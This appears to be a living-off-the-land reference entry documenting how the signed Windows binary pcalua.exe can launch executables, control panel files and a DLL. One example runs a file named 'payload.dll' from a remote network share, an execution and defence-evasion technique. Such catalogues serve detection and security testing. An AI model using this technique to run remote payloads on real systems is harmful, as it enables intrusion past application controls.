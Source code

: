## Pcalua.exe
* Functions: Execute
```

pcalua.exe -a calc.exe
Open the target .EXE using the Program Compatibility Assistant.

pcalua.exe -a \\server\payload.dll
Open the target .DLL file with the Program Compatibilty Assistant.

pcalua.exe -a C:\Windows\system32\javacpl.cpl -c Java
Open the target .CPL file with the Program Compatibility Assistant.
```
   
* Resources:   
  * https://twitter.com/KyleHanslovan/status/912659279806640128
   
* Full path:   
  * c:\windows\system32\pcalua.exe
   
* Notes: Thanks to:
fab - @0rbz_
Kyle Hanslovan - @KyleHanslovan
  
   
